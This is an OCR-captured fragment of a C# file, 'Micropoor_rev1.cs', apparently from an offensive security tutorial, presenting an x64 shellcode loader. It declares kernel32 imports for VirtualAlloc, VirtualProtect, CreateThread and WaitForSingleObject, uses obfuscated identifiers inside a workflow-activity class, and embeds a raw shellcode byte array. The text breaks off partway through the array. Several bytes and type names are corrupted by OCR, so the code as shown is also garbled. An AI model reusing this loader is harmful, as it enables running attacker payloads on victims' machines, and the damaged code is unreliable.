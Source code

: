     } 
    
    }
    
        

**Micropoor\_rev1.cs**：-
注：x64 payload

    using System;
    
    using System.Workflow.Activities;
    
    using System.Net;
    
    using System.Net.Sockets;
    
    using System.Runtime.InteropServices;
    
    using System.Threading;
    
    class yrDaTlg : SequentialWorkflowActivity {
    
    [DllImport("kernel32")] private static extern IntPtr VirtualAlloc(UInt32 rCfMkmxRSAakg,UInt32 qjRsrljIMB, UInt32 peXiTuE, UInt32 AkpADfOOAVBZ);
    
    [DllImport("kernel32")] public static extern bool VirtualProtect(IntPt rDStOGXQMMkP, uint CzzIpcuQppQSTBJ, uint JCFImGhkRqtwANx, out uint exgVp Sg);
    
    [DllImport("kernel32")]private static extern IntPtr CreateThread(UInt32 eisuQbXKYbAvA, UInt32 WQATOZaFz, IntPtr AEGJQOn,IntPtr SYcfyeeSgPl, UInt32 ZSheqBwKtDf, ref UInt32 SZtdSB);
    
    [DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr KqJNFlHpsKOV, UInt32 EYBOArlCLAM);
    
    public yrDaTlg() {
    
    byte[] QWKpWKhcs =
    
    {0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
    
    0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,x48,
    
    0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,xc9,
    
    0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,x41,
    
    0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,x48,
    
    0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,x8b,
    
    0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,x8b,
    
    0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,x41,
    
    0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,xc1,
    
    0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,x45,
    
    0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,x8b,
    
    0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,x01,
    
    0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,x48,
    